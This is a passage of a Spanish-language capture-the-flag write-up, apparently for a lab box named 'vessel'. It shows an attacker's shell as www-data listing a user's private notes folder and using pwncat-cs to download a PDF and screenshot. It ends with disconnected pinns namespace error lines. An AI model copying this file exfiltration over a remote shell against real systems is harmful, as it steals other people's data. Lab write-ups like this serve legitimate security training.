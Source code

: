 Este directorio contiene un archivo PDF y una imagen.
```console
(remote) www-data@vessel:/home/steven/.notes$ ls -la
total 40
drwxr-xr-x 2 ethan  steven  4096 Aug 11  2022 .
drwxrwxr-x 3 steven steven  4096 Aug 11  2022 ..
-rw-r--r-- 1 ethan  steven 17567 Aug 10  2022 notes.pdf
-rw-r--r-- 1 ethan  steven 11864 May  2  2022 screenshot.png
```

Vamos a descargarnos este PDF y esta imagen haciendo uso de la función interna `download` de `pwncat-cs`
```console
(remote) www-data@vessel:/home/steven/.notes$
(local) pwncat$ download notes.pdf
notes.pdf ━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━ 100.0% • 17.6/17.6 KB • ? • 0:00:00
[00:34:31] downloaded 17.57KiB in 0.32 seconds                                                                                                                                                                              download.py:71
(local) pwncat$ download screenshot.png
screenshot.png ━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━ 100.0% • 11.9/11.9 KB • ? • 0:00:00
[00:34:36] downloaded 11.86KiB in 0.20 seconds
```

Vemos que el PDF está protegido con contraseña.
![Write-up Image](images/Screenshot_18.png)

Y la imagen nos muestra la interfaz gráfica del ejecutable encontrado.

[pinns:e]: Path for pinning namespaces not specified: Invalid argument
[pinns:e]: Path for pinning namespaces not specified: Invalid argument
[pinns:e]: Filename for pinning namespaces not specified: Invalid argument
[pinns:e]: Failed to bind mount ns: /proc/self/ns/user: Operation not permitted
[pinns:w]: Failed to create ns file: File exists